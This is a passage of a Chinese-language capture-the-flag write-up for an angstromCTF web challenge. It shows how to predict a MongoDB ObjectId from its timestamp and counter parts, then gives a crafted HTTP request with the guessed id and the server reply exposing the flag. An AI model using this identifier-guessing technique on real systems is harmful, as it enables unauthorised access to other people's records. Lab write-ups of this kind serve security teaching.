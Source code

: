 ****MongoDB ObjectId 时间戳转换器****

****![](img/ee8c4e4a0e36a2efbe03cfc341cb3296.png)****

****根据这个日期生成您的时间戳****

****最后，我得到了我的新 *ObjectId* 的第一部分！****

****第二部分(机器标识符)和第三部分(pid)在任何 *ObjectId* 之间是公共的，第四部分和最后一部分(计数器)从 *ObjectId* 变为另一个。****

****我们的 ObjectIds 计数器随机从 **0xfce6d2** 开始，在 flag 的事件之前我们有 3 个事件，因此我们的 flag 的事件是第 4 个事件，并且将把 **0xfce6d5** 作为计数器值。****

****我们的第四个 *ObjectId* 将是:****

```
****5aad4131**e07e1e001c**fce6d5****
```

****让我们尝试用这个 *ObjectId* 而不是旧的*ObjectId*重新发送请求:****

```
**GET /boxes?ids=**5aad4131**e07e1e001c**fce6d5**,5aad412be07e1e001cfce6d3,5aad412be07e1e001cfce6d4 HTTP/1.1
Host: web.angstromctf.com:7667
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: [http://web.angstromctf.com:7667/](http://web.angstromctf.com:7667/)
X-Requested-With: XMLHttpRequest
Connection: close
If-None-Match: W/"183-Tv299FSONRL0nObibB59WErSwqE"**
```

****![](img/ed76efde15385d5d6fc169d21d756fcb.png)****

****重新发送新的 ObjectId，而不是旧的 ObjectId****

```
**HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 336
ETag: W/"150-hFnDh2xD7F74/VhzVJopSoSo22Y"
Date: Mon, 26 Mar 2018 03:25:26 GMT
Connection: close{"boxes":[{"_id":"5aad4131e07e1e001cfce6d5","data":"**actf{0bj3ct_ids_ar3nt_s3cr3ts}**","__v":0},{"_id":"5aad412be07e1e001cfce6d3","data":"You will be very bored.^Seriously, there's nothing interesting.","__v":0},{"_id":"5aad412be07e1e001cfce6d4","data":"Please just leave.^Scrolling more will only give you more boring content.","__v":0}]}**
```

